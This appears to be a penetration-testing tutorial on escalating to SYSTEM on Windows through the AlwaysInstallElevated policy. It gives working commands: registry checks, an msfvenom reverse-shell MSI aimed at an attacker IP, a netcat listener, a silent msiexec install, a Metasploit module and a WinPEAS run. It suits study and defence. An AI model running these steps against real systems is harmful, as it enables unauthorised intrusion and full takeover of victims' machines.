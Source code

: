  The AlwaysInstallElevated policy in Windows allows unprivileged users to install software using MSI (Microsoft Installer) packages with SYSTEM-level permissions. When this policy is enabled, any MSI package run by a user, regardless of their privileges, will execute with elevated permissions.




The Exploit

If a machine has the `AlwaysInstallElevated` policy enabled, an attacker could craft a malicious `.msi` package and run it using SYSTEM level privileges.

For this attack to work, the “AlwaysInstallElevated” value in following Registry keys has to be set to `1`.

1. The first step is to check whether the required registry keys are enabled:

```powershell
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

![Screenshot from 2024-09-30 02-41-42](https://github.com/user-attachments/assets/9db77297-6a6e-46dd-9d4e-fe48976a9269)
2. A reverse shell should be crafted:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<our ip> LPORT=1234 -f msi > shell.msi
```
3. Transferring the shell.msi file to the Windows victim machine using the Python web server
4. The next step is to set up a Netcat listener:
```
nc -nlvp 1234 
```
5. The following command can then be used to install the .msi file:
```
msiexec /quiet /qn /i file.msi
```
* `/quiet` – quiet mode, which means there’s no user interaction required
* `/qn` – specifies there’s no UI during the installation process


Once the package is installed, the malicious code is executed, granting SYSTEM level access to the system through a reverse shell.





Metasploit Exploitation
--

This vulnerability can also be exploited by using the `exploit/windows/local/always_install_elevated` module.

Once a meterpreter shell is obtained, all that is required is to brackground the session, search for and set the module, set the session value and run it.

This has granted a SYSTEM level shell. Always try and perform the attack in a manual fashion first, especially when practicing it for the first time.










This can also be checked with automated scripts such as WinPEAS:
--
```
winpeas.exe quiet systeminfo
```
 
